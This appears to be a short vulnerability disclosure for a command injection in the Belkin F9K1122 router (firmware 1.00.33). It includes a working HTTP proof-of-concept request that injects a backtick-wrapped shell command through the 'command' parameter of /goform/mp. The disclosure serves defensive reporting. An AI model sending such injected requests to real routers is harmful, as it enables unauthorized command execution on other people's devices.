


# Belkin Vulnerability

Vendor:Belkin

Product:F9K1122

Version:1.00.33

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in Belkin router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `webs` binary:

In `mp` function, `command` is directly passed by the attacker, so we can control the `command` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `command` as **`ping 192.168.1.6`** , and the router will excute it,such as:

```http
POST /goform/mp HTTP/1.1
Host: 192.168.1.5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: http://192.168.1.5
Connection: close
Referer: http://192.168.1.5/mp.asp
Upgrade-Insecure-Requests: 1

command=`ping 192.168.1.6`
```


## Result

Ping!

<div  align="center"></div>
